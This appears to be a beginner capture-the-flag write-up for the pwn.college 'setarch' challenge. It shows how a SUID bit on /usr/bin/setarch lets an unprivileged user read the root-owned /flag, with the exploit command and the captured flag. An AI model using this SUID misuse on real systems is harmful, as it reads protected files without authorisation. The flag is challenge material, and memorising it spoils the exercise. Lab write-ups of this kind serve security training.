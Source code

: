 # Challenge Name: setarch
**Category**: Program Misuse  
**Platform**: pwn.college  
**Difficulty**: Begineer
**Date**: 2025-07-15  
**Author**: Himanshu Parate

---

## 🧠 Summary:
The challenge abuses a SUID bit set on `/usr/bin/setarch`, allowing an unprivileged user to read the root-owned flag file at `/flag`.

---

## 🔍 Enumeration

```bash
ls -l /usr/bin/setarch
```

output:
```
-rwsr-xr-x 1 root root 47480 Sep  5  2019 /usr/bin/setarch
```

-The `s` in `-rws` indicates it's a SUID binary.
-`setarch` runs with **root privileges**.

## 🚀 Exploitation

The `setarch` command in Linux is used to change the architecture or personality of a process before executing it. 


```bash
setarch linux64 cat /flag
```

Output:
```
pwn.college{k2RylRehP4RmVHIWovP1YNHQHzU.dJzNxwSM0IzMyEzW}
```

      
